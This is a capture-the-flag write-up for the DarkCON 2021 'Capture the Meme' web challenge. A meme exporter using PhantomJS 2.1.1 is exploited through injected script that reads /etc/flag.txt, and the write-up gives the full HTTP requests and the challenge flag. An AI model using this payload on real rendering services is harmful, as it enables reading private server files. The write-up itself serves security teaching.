

# DarkCON CTF 2021 – Capture the Meme

* **Category:** web
* **Points:** ?

## Challenge

> Made this meme generator for ya :) hope you like some memes 
> 
> Note: Flag at /etc/flag.txt
> 
> http://capture-the-meme.darkarmy.xyz/

## Solution



The web application allows you to create a meme specifying the URL of an image, the top text and the bottom text. The image can be exported in PDF format clicking on the "Export!" button.

Clicking on the button, the following request is created.

```
POST /export HTTP/1.1
Host: capture-the-meme.darkarmy.xyz
Content-Length: 93
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capture-the-meme.darkarmy.xyz
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://capture-the-meme.darkarmy.xyz/
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=df45261952c636f9cab5329dc89f8aab11613847303
Connection: close

url=https%3A%2F%2Fimgflip.com%2Fs%2Fmeme%2FLaughing-Leo.png&upper=top+test&bottom=bottom+test
```

Creating a listener, you can discover that two requests are performed to retrieve the image.

```
user@machine:~$ sudo nc -lkp 1337
HEAD /foo.jpg HTTP/1.1
host: x.x.x.x:1337
content-length: 0
Connection: close

GET /foo.jpg HTTP/1.1
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: x.x.x.x:1337
```

*PhantomJS/2.1.1* is vulnerable to *CVE-2019-17221* and it is a deprecated package:
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17221);
* [https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf](https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf);
* [https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/).

After some analysis, you can discover that top and bottom texts parse the HTML, interpreting it.

So it is sufficient to craft a payload like the following for one of the two texts.

```html
<script>x = new XMLHttpRequest; x.onload = function() { document.write(this.responseText) }; x.open("GET", "file:///etc/flag.txt"); x.send();</script>
```

Putting the payload in a request like the following.

```
POST /export HTTP/1.1
Host: capture-the-meme.darkarmy.xyz
Content-Length: 292
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capture-the-meme.darkarmy.xyz
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://capture-the-meme.darkarmy.xyz/
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=df45261952c636f9cab5329dc89f8aab11613847303
Connection: close

url=https%3A%2F%2Fimgflip.com%2Fs%2Fmeme%2FLaughing-Leo.png&upper=%3Cscript%3Ex+%3D+new+XMLHttpRequest%3B+x.onload+%3D+function%28%29+%7B+document.write%28this.responseText%29+%7D%3B+x.open%28%22GET%22%2C+%22file%3A%2F%2F%2Fetc%2Fflag.txt%22%29%3B+x.send%28%29%3B%3C%2Fscript%3E&bottom=bottom
```

A [PDF with the flag](export.pdf) will be returned.

```
darkCON{wh4t_1f_1_t01d_u_h4v3_r1ght_f14g_0f_th1s_ch411}
```